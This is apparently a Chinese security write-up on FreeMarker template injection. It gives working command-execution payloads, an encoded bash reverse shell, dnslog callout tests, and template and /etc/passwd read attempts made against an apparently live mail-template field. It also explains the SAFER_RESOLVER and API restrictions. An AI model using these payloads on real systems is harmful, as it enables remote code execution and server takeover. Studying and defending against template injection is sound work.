# FreeMarker模板注入实例


---

### 一、前言

**尽管JAVA模板引擎们大都可以实现差不多的功能效果，但经过多次测试和经验进行判断，FreeMarker多用于邮件等HTML模板，Thymeleaf多用于更精致的前端页面数据展示。**

---

### 二、FreeMarker环境搭建

*下面很大一部分参考来自[Eleven](https://www.cnblogs.com/Eleven-Liu/)师傅的博客文章，[FreeMarker模板注入实现远程命令执行](https://www.cnblogs.com/Eleven-Liu/p/12747908.html)，针对实际测试情况作了一些改动和丰富payload形式并填了一些测试过程中遇到的坑。*

**什么是 FreeMarker?**

FreeMarker 是一款 模板引擎：即一种基于模板和要改变的数据， 并用来生成输出文本(HTML网页，电子邮件，配置文件，源代码等)的通用工具。 它不是面向最终用户的，而是一个Java类库，是一款程序员可以嵌入他们所开发产品的组件。

模板编写为FreeMarker Template Language (FTL)。它是简单的，专用的语言， *不是* 像PHP那样成熟的编程语言。 那就意味着要准备数据在真实编程语言中来显示，比如数据库查询和业务运算， 之后模板显示已经准备好的数据。在模板中，你可以专注于如何展现数据， 而在模板之外可以专注于要展示什么数据。



 常用的几种类型：

**文本：**包括HTML标签与静态文本等静态内容，会原样输出；

**插值：**这部分的输出会被计算的数据来替换，使用${}这种语法；

**标签：**给FreeMarker的指示，可以简单与指令等同，不会打印在内容中，比如<#assign name='bob'>；

**注释：**由<#–和–>表示，不会被freemarker处理


根据FreeMarker官方开发文档，搭建一个简单的测试环境，由于我们首要模板就是执行命令，所以直接读取test.ftl里的FreeMarker语句进行FreeMarker引擎解析，结果输出到控制台即可，没有去参考[Eleven](https://www.cnblogs.com/Eleven-Liu/)师傅的方法。



freeMark.java

```java
import freemarker.template.*;
import java.util.*;
import java.io.*;

public class freeMark {

    public static void main(String[] args) throws Exception {

        /* ------------------------------------------------------------------------ */
        /* You should do this ONLY ONCE in the whole application life-cycle:        */

        /* Create and adjust the configuration singleton */
        Configuration cfg = new Configuration(/*Configuration.VERSION_2_3_9*/);
        cfg.setDirectoryForTemplateLoading(new File("E:\\winbak\\tools\\08_Audit\\freemarker_test\\src\\main\\java"));
        cfg.setDefaultEncoding("UTF-8");
        cfg.setTemplateExceptionHandler(TemplateExceptionHandler.RETHROW_HANDLER);

        /* ------------------------------------------------------------------------ */
        /* You usually do these for MULTIPLE TIMES in the application life-cycle:   */
        //Configuration cfg = new Configuration();
        /* Create a data-model */
        Map root = new HashMap();
        root.put("user", "Big Joe");
        Map latest = new HashMap();
        root.put("latestProduct", latest);
        latest.put("url", "products/greenmouse.html");
        latest.put("name", "green mouse");

        /* Get the template (uses cache internally) */
        Template temp = cfg.getTemplate("test.ftl");

        /* Merge data-model with template */
        Writer out = new OutputStreamWriter(System.out);
        temp.process(root, out);
        // Note: Depending on what `out` is, you may need to call `out.close()`.
        // This is usually the case for file output, but not for servlet output.
    }
}
```

pom.xml

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>org.example</groupId>
    <artifactId>freemarker_test</artifactId>
    <version>1.0-SNAPSHOT</version>

    <dependencies>
        <dependency>
            <groupId>org.freemarker</groupId>
            <artifactId>freemarker</artifactId>
            <version>2.3.9</version>
        </dependency>
        <dependency>
            <groupId>org.python</groupId>
            <artifactId>jython-standalone</artifactId>
            <version>2.7.2</version>
        </dependency>
    </dependencies>
</project>
```


test.ftl

```java
${"freemarker.template.utility.Execute"?new()("calc.exe")}
```

---

### 三、使用内置函数构造命令执行


**FreeMarker高级内置函数**

参考：[https](https://freemarker.apache.org/docs/ref_builtins_expert.html)[://freemarker.apache.org/docs/ref_builtins_expert.html](https://freemarker.apache.org/docs/ref_builtins_expert.html)

其中， new函数创建一个继承 freemarker.template.TemplateModel 类的变量。


**构造Payload方法一(适用于各种版本，如2.3.9、2.3.17、2.3.30)**

freemarker.template.utility里面有个Execute类，如下图所示，这个类会执行它的参数，因此我们可以利用new函数新建一个Execute类，传输我们要执行的命令作为参数，从而构造远程命令执行漏洞。

构造payload:

```java
<#assign value="freemarker.template.utility.Execute"?new()>${value("curl http://127.0.0.1:8080")}
```

另一种方式，不使用标签，直接使用字符串并入到变量中。(当)

```java
${"freemarker.template.utility.Execute"?new()("bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzEyNy4wLjAuMS84ODg4IDA+JjEg}|{base64,-d}|{bash,-i}")}
```


**构造Payload方法二(适用于中高版本，如2.3.17、2.3.30)**

freemarker.template.utility里面有个ObjectConstructor类，如下图所示，这个类会把它的参数作为名称，构造了一个实例化对象。因此我们可以构造一个可执行命令的对象，从而构造远程命令执行漏洞。

 构造payload:

```java
<#assign value="freemarker.template.utility.ObjectConstructor"?new()>${value("java.lang.ProcessBuilder","calc.exe").start()}
```

```java
${"freemarker.template.utility.ObjectConstructor"?new()("java.lang.ProcessBuilder","calc.exe").start()}
```


**构造Payload方法三(在引入jython-standalone依赖的情况下，适用于各种版本，如2.3.9、2.3.17、2.3.30)**

freemarker.template.utility里面的JythonRuntime，可以通过自定义标签的方式，执行Python命令，从而构造远程命令执行漏洞。

 构造payload（不能使用${}变量写法）:

```java
<#assign value="freemarker.template.utility.JythonRuntime"?new()><@value>import os;os.system("calc.exe")</@value>
```

实测当pom拉取的依赖不对时，jython导入不了os库，推测和winodws环境变量之类的有关。这种情况下jython实际可用的库似乎只有sys。：

```java
<#assign value="freemarker.template.utility.JythonRuntime"?new()><@value>import sys;print sys.version;print sys.version_info;</@value>
```

错误的引入如下，为非独立版本，在burp插件中使用的jython也必须为standalone。

```xml
<dependency>
    <groupId>org.python</groupId>
    <artifactId>jython</artifactId>
    <version>2.7.2</version>
</dependency>
```

正确的版本应该引入standalone版本，本事包含了python的标准库（with the Python standard library (`/Lib`) files included）。

```xml
<dependency>
    <groupId>org.python</groupId>
    <artifactId>jython-standalone</artifactId>
    <version>2.7.2</version>
</dependency>
```


### 四、关于安全机制

引用[关于FreeMarker模板注入](https://zhuanlan.zhihu.com/p/432361789)的说明，可发现

> **四. FreeMarker安全机制**
>
> **上述三种利用方式，FreeMarker也作出了安全措施。**
>
> l 从2.3.17版本开始使用Configuration.setNewBuiltinClassResolver(TemplateClassResolver)或者new_builtin_class_resolver设置来限制内置函数new对类的访问。此处官方提供了三个预定义的解析器：
>
> UNRESTRICTED_RESOLVER：简单地调用ClassUtil.forName(String)。
>
> SAFER_RESOLVER：和第一个类似，但禁止解析ObjectConstructor，Execute和freemarker.template.utility.JythonRuntime。
>
> ALLOWS_NOTHING_RESOLVER：禁止解析任何类。
>
> 当然用户自身也可以自定义解析器以拓展对危险类的限制，只需要实现TemplateClassResolver接口就好了。
>
> l api内建函数并不能随意使用，必须在配置项api_builtin_enabled为true时才有效，而该配置在2.3.22版本之后默认为false。
>
> l 同时为了防御通过其他方式调用恶意方法，FreeMarker内置了一份危险方法名单unsafeMethods.properties[3]，诸如getClassLoader、newInstance等危险方法都被禁用了。
>
> l 在Freemarker 2.3.30 中引入了一个基于MemberAccessPolicy 的新沙箱。默认策略改进了黑名单并禁止通过反射访问ClassLoader方法和公共字段。
>

```java
import freemarker.template.*;
import java.util.*;
import java.io.*;

import static freemarker.core.TemplateClassResolver.*;/*要引入对应的常量*/

public class freeMark {

    public static void main(String[] args) throws Exception {

        /* ------------------------------------------------------------------------ */
        /* You should do this ONLY ONCE in the whole application life-cycle:        */

        /* Create and adjust the configuration singleton */
        Configuration cfg = new Configuration(/*Configuration.VERSION_2_3_9*/);
        cfg.setDirectoryForTemplateLoading(new File("E:\\winbak\\tools\\08_Audit\\freemarker_test\\src\\main\\java"));
        cfg.setDefaultEncoding("UTF-8");
        cfg.setTemplateExceptionHandler(TemplateExceptionHandler.RETHROW_HANDLER);
        cfg.setNewBuiltinClassResolver(SAFER_RESOLVER);/*默认设置是UNRESTRICTED_RESOLVER，则百无禁忌*/

        /* ------------------------------------------------------------------------ */
        /* You usually do these for MULTIPLE TIMES in the application life-cycle:   */
        //Configuration cfg = new Configuration();
        /* Create a data-model */
        Map root = new HashMap();
        root.put("user", "Big Joe");
        Map latest = new HashMap();
        root.put("latestProduct", latest);
        latest.put("url", "products/greenmouse.html");
        latest.put("name", "green mouse");

        /* Get the template (uses cache internally) */
        Template temp = cfg.getTemplate("test.ftl");

        /* Merge data-model with template */
        Writer out = new OutputStreamWriter(System.out);
        temp.process(root, out);
        // Note: Depending on what `out` is, you may need to call `out.close()`.
        // This is usually the case for file output, but not for servlet output.
    }
}
```



---

### 五、实战反弹shell演示

#### 测试是否出网

使用`<#assign value="freemarker.template.utility.Execute"?new()>${value("ping bf127738.dns.1433.eu.org -c 4")}`，在[邮件主题]处输入并点击[保存]，发现可以执行ping命令，收到dnslog记录。



#### 测试反弹Shell

进一步反弹shell连接，使用`bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzEyNy4wLjAuMS84ODg4IDA+JjEg}|{base64,-d}|{bash,-i}`命令，插入到payload执行命令部分，可以取得服务器root权限。



关于反弹shell部分可参考

[Java Runtime.exe() 执行命令与反弹shell（上）](https://www.jianshu.com/p/eb41a0291123)

[Java Runtime.exe() 执行命令与反弹shell（下）](https://www.jianshu.com/p/ae3922db1f70)


### 复测尝试绕过



测试payload

```java
a${2*24}
//返回a48
```

```java
a<#if "piceous"?contains("ice")>It contains "ice"</#if>
//当匹配到ice时，返回aIt contains "ice",未匹配到时返回a
```


发现支持插值${}和标签<#>


同时在标题和正文分分别使用两个payload试试，

```java
<#list ["foo", "bar", "baz"] as x>     ${x} </#list>
    
${"freemarker.template.utility.ObjectConstructor"?new()("java.lang.ProcessBuilder","ping 4374587f.dns.1433.eu.org -c 8").start()}
```

标题执行了标签，正文不能执行标签




正文只能执行插值`${"freemarker.template.utility.ObjectConstructor"?new()("java.lang.ProcessBuilder","ping 4374587f.dns.1433.eu.org -c 8").start()}`



显然，它配置了cfg.setNewBuiltinClassResolver(SAFER_RESOLVER);用来修复漏洞。




再使用特殊变量查看版本等信息

```java
${.version},  ${.output_format},  ${.template_name} , ${.current_template_name} , ${.now}
```





看看能不能用api，一般2.3.22版本以后默认不允许使用。因为邮件主题不能返回太长的东西，只能在正文里输入：

```
${"object"?api.class.protectionDomain.classLoader}
```

果然，不能使用。




我们再看看标题和正文的联系，用一个读文件试试

```java
<#assign aaa> <#include .current_template_name parse=false> </#assign>${aaa}
```




返回值说明读到了当前的模板文件，但是不包含邮件正文的`${version}`，属于每次调用都动态生成，没有路径。我猜想动态生成的模板指针是在jvm里，只能读内存的东西。没法调用系统层的。




我们再试试读文件

```java
<#assign optTemp = .get_optional_template('/etc/passwd')>
<#if optTemp.exists>
    Template was found.
<#else>
    Template was missing.
</#if>
```

没有文件，麻了，可能是在jvm里。

